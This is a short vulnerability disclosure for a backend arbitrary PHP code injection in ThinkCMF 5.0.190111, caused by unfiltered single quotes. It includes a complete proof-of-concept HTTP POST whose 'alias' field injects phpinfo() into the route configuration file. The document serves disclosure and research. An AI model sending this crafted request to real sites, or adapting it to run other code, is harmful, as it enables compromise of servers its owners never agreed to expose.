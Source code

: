 # ThinkCMF-5.0.190111 backend arbitrary code injection

## Description
`filterExp(&$value)` in `simplewind/thinkphp/library/think/Request.php` failed to filter single quote(i.e. ') in user input, resulting in arbitrary php code injected in `data/conf/route.php`. This vulnerability can be triggered by backend logged in user making a crafted HTTP request to **/portal/admin_category/addpost.html**


![](img/20190128153711.png)
![](img/20190128160928.png)

### The trigger point
![](img/20190128160302.jpg)

## PoC
```http
POST /portal/admin_category/addpost.html HTTP/1.1
Host: 192.168.170.209
Content-Length: 183
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: thinkphp_show_page_trace=0|0; thinkphp_show_page_trace=0|0; PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
Connection: close

parent_id=0&name=111&alias=1'%3D%3Earray(%22%22%2C%22%22)%2Cphpinfo()%2C'2&description=xxx&more%5Bthumbnail%5D=&seo_title=&seo_keywords=&seo_description=&list_tpl=list&one_tpl=article
```

## Demo
![](img/thinkcmf.gif)
